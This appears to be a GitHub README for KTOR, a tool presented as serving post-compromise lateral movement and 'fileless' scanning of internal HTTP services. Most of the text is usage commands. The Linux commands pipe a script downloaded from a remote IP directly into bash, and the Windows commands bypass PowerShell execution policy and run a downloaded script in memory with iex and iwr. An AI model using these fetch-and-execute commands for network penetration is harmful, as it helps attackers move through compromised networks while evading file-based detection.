





# KTOR

KTOR is a tool specifically designed for lateral movement in Linux. With this tool, you can quickly scan internal HTTP services for further network penetration, achieving fileless scanning.

 
# KTOR for Linux

`$ ./ktor.sh -h`

## Scan localhost

`$ curl http://10.10.16.28/ktor.sh|bash -s -- -l -p all`

## Scan other machines through the interface

`$ curl http://10.10.16.28/ktor.sh|bash -s -- -i eth0 -p 80,8080 -t 100`

# KTOR for Windows

`PS> Set-ExecutionPolicy Bypass -Scope Process -Force;.\ktor.ps1`

## Scan localhost

`PS> iex "& { $(iwr http://192.168.0.106/ktor.ps1 -UseBasicParsing) } -Local"`

## Scan other machines

`PS> iex "& { $(iwr http://192.168.0.106/ktor.ps1 -UseBasicParsing) } -Targets 192.168.0.106 -Ports 80,8080,8000"`

